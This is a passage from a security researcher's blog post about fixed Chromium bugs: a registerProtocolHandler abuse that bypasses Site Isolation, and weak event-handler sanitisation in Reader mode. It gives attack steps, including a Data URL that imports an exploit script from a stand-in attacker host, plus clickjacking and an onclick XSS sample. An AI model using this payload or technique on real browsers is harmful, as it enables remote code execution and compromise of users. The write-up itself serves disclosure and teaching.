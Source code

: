 # Abusing Protocol Handler
Another idea I had was, what if I can use [_registerProtocolHandler_ API](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/registerProtocolHandler) to navigate any protocol to some bad URL (e.g. Data URL)? So, I checked their implementation, and following restrictions were bypassable/spoofable.

- The protocol/scheme must be in the [allow-list](https://developer.mozilla.org/en-US/docs/Web/API/Navigator/registerProtocolHandler#Permitted_schemes):
  - This check was implemented inside a renderer process, and browser process only had deny-list check related to browser-handled schemes (e.g. _http:_, _https:_, etc).
- Destination URL has to be same-origin to the registering window
  - This check was also inside a renderer process, thus can be bypassed.
- User has to accept the permission prompt
  - The origin shown in the permission prompt was calculated using destination URL, which could be anything with #2 bypass.
  - A cross-origin iframe can call _registerProtocolHandler_ API.
  - The permission prompt shows no origin information if you pass a Data URL 😂
  <img src="{{ site.baseurl }}/assets/img/blog_img/site_isolation/blank_permission.png">

With these bypasses, an attacker can bypass Site Isolation with the following steps:
1. Request a protocol handler permission with the following Data URL as the destination URL.
- `data:text/html,<script>import('https://evil.example/renderer_exploit.js')</script>`
2. Clickjack a victim page which has a link to the custom protocol (e.g. _tel:_, _mailto:_, etc).
3. Clicking the link would navigate to the above Data URL, which would execute in the victim's renderer process.

<img src="{{ site.baseurl }}/assets/img/blog_img/site_isolation/proto.gif">

[This bug](https://bugs.chromium.org/p/chromium/issues/detail?id=971917) was fixed by adding appropriate checks in the browser process.

# Finding bugs in Reader mode through a security review
When Edge started building the [Reading View](https://learn.microsoft.com/microsoft-edge/dev-guide/browser-features/reading-view) experience, we decided to use [DOM Distiller](https://chromium.googlesource.com/chromium/dom-distiller#dom-distiller) which powers Reader mode in Chrome. I was curious about how DOM Distiller is implemented, so I started testing it.

Reader mode sanitizes HTML content from the site before rendering for good reading experience. While they tried to remove most of the dangerous tags (e.g. `script`, `style`, etc) many event handlers weren't properly sanitized (e.g. `<button onclick="alert(1)">`). And images and videos from the site could be rendered by design.

This essentially means if an attacker has a memory corruption bug in image or video parsing, or a CSP bypass, an attacker can compromise a Reader mode process or execute a script in the Reader mode.

Reader mode is rendered with `chrome-distiller:` scheme, where the host name is a <span style="color:DodgerBlue">GUID</span>, and the <span style="color:red">_url_</span> parameter pointing to the page to be distilled.

chrome-distiller://<span style="color:DodgerBlue">9a898ff4-b0ad-45c6-8da2-bd8a6acce25d</span>/?url=<span style="color:red">https://news.example</span>
